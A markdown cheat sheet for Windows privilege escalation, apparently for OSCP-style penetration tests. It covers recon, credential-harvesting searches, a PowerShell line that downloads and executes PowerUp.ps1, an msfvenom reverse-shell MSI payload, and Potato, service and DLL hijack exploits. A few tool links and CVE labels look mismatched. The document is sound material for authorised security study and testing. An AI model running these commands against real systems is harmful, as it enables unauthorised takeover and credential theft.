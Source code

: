 # Windows Privilege Escalation Playbook

Quick-reference checklist for hunting Windows privilege escalation paths, covering manual checks, automated tooling, and common exploits. Replace placeholders (`<target>`, `<user>`, `<password>`) as needed.

---

## Quick Triage Checklist
- Identify current user context and host: `whoami`, `hostname`
- Inspect group memberships for elevated rights: `whoami /groups`
- Enumerate local users and privileged groups: `net user`, `net localgroup administrators`
- Capture OS build, architecture, and patch level: `systeminfo`, `wmic os get osarchitecture`, `wmic qfe`
- Review network footprint: `ipconfig /all`, `route print`
- List installed applications and running processes: `wmic product get name,version`, `tasklist /v`
- **Command bundle for a fast snapshot:**
  ```powershell
  whoami; hostname; whoami /groups;
  net user; net localgroup administrators;
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version";
  wmic os get osarchitecture; wmic qfe get HotFixID,InstalledOn;
  ipconfig /all; route print; tasklist /v
  ```

---

## 1. System Recon
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` – OS baseline for kernel/patch checks.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Enumerate installed updates.
- `whoami /all` – Current user, groups, and privileges (look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege, etc.).
- `hostname` / `echo %COMPUTERNAME%` – Confirm host identity.
- `set` – Dump environment variables for credentials or unusual paths.
- `driverquery /v` – List drivers to identify vulnerable third-party components.
- `wevtutil qe System /c:10 /rd:true /f:text` – Recent system events (service crashes, policy changes).
- **Situational awareness command sweep:**
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  wmic qfe get Caption,Description,HotFixID,InstalledOn
  whoami /all
  driverquery /v
  wevtutil qe System /c:10 /rd:true /f:text
  ```

## 2. Account & Credential Recon
- `net user <username>` / `net user` – Local user enumeration.
- `net localgroup administrators` – Check local admin membership.
- `cmdkey /list` – Stored credentials.
- `vaultcmd /listcreds /all` – Credential Manager entries.
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` – Auto-logon creds.
- `findstr /spin "password" C:\Users\*` – Harvest clear-text secrets from user profiles.
- `findstr /spin /c:"pass" C:\*` – Broad search for files containing the literal string "pass".
- **Hidden-in-plain-view sweep (passwords, tokens, secrets):**
  ```powershell
  findstr /spin "password" C:\Users\*
  findstr /spin "token\|secret" C:\Users\*
  findstr /spin /c:"pass" C:\*
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  cmdkey /list
  vaultcmd /listcreds /all
  ```

## 3. Service & Driver Abuse
- `sc query state= all` – Enumerate services and states.
- `sc qc <service>` – Inspect service configuration (binary path, run-as account).
- `wmic service get name,displayname,startmode,startname` – Identify auto-start services running as SYSTEM.
- Check for unquoted service paths; note writable directories in the path.
- `accesschk.exe -uwcqv "Authenticated Users" * /accepteula` – Detect writable service binaries.
- Driver vulnerabilities: cross-reference `driverquery` output with exploit DB (e.g., CVE-2018-0952).

## 4. Scheduled Tasks & Startup
- `schtasks /query /fo LIST /v` – Look for high-priv tasks with modifiable actions.
- `dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` – Startup folder abuse.
- Inspect `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` for writable autoruns.

## 5. Registry & Permission Weaknesses
- `reg query HKLM\SOFTWARE\Policies /s` – Misconfigured policies.
- `icacls "C:\Program Files"` – Find writable directories under Program Files.
- `Get-Acl` via PowerShell on critical paths (`C:\Windows\System32`, service binaries) to spot misperms.
- `reg query HKLM\SYSTEM\CurrentControlSet\Services /s | findstr /i "ImagePath"` – Review service ImagePaths for suspicious locations.
- **Interpreting key `icacls` flags:**  
  `F` (Full Control), `M` (Modify), `(W)` (Write), `(OI)` (Object Inherit), `(CI)` (Container Inherit). If low-privileged principals such as `BUILTIN\Users`, `Authenticated Users`, or `Everyone` hold `F`, `M`, or `(W)` on service binaries or directories, the path is likely exploitable.

## 6. Token & Privilege Abuse
- `whoami /priv` – Confirm user privileges.
- If SeImpersonatePrivilege present: deploy `PrintSpoofer`, `GodPotato`, or JuicyPotato.
- With SeAssignPrimaryTokenPrivilege: use `PsExec` or `incognito` to assign new tokens.
- With SeBackupPrivilege: use `diskshadow` + `ntdsutil` for AD database/download.

## 7. UAC & Logon Tricks
- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` – Determine UAC level.
- Test non-elevated processes for auto-elevate (fodhelper, sdclt, eventvwr) if UAC is misconfigured.
- `query user` – Identify interactive admins for impersonation opportunities.

## 8. Using PowerUp.ps1
- Import PowerUp: `powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`
- Key functions:
  - `Invoke-AllChecks` – Comprehensive audit of services, reg keys, creds.
  - `Get-ServiceUnquoted` / `Get-ModifiableServiceFile` – Service path exploits.
  - `Get-ModifiableScheduledTaskFile` – Writable scheduled tasks.
  - `Get-RegistryAlwaysInstallElevated` – MSI elevated install misconfigs.
  - `Invoke-ServiceAbuse -Name <service>` – Automatically reconfigure vulnerable services.

## 9. Automated Scanners & Scripts
- `winPEAS.exe /quiet` – Broad privilege escalation discovery.
- `Seatbelt.exe -group=all` – Quick situational awareness.
- `SharpUp.exe` – C# alternative for Windows priv-esc checks.
- `Jaws-enum.ps1` – PowerShell info-gathering script.
- `wesng <systeminfo_output.txt>` – Windows Exploit Suggester Next-Gen.

## 10. Common Priv-Esc Exploits
- **Potato Family (SeImpersonate/AssignPrimary tokens)**
  - PrintSpoofer64: `PrintSpoofer64.exe -i -c cmd.exe`
  - GodPotato: `GodPotato.exe -cmd "cmd.exe"`
  - JuicyPotatoNG: `JuicyPotatoNG.exe -l 1337 -c "{CLSID}" -p "C:\Windows\System32\cmd.exe"`
- **Service Binary Replacement**
  - Stop vulnerable service → replace executable with payload → start service.
- **Unquoted Service Path**
  - Place payload in path (e.g., `C:\Program Files\Vuln Service\program.exe`) and restart service.
- **AlwaysInstallElevated**
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `msfvenom -p windows/x64/shell_reverse_tcp -f msi` and run MSI to escalate.
- **DLL Hijacking**
  - Monitor loading DLLs via `Process Monitor` or `ListDLLs` → drop malicious DLL in writable directory.
- **Kernel Exploits**
  - Cross-reference build with exploit suggester (e.g., `PowerUp`, `wesng`) and deploy CVE-specific exploit like `CVE-2019-1388`.

## 11. Persistence & Verification
- After escalation, confirm with `whoami /groups` and `net session`.
- Locate OSCP flag files to document proof: `dir /s C:\*local.txt`, `dir /s C:\*proof.txt`
- Document exploited vector, commands, and files modified.
- Remove tooling and restore service order if required by engagement scope.

---

### Useful Download Links
- PowerUp.ps1: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrintSpoofer: https://github.com/dievus/printspoofer
- GodPotato: https://github.com/BeichenDream/GodPotato
- JuicyPotatoNG: https://github.com/ohpe/juicy-potato
- Windows Exploit Suggester NG: https://github.com/bitsadmin/wesng
- Seatbelt: https://github.com/GhostPack/Seatbelt
- Kerbrute https://github.com/ropnop/kerbrute
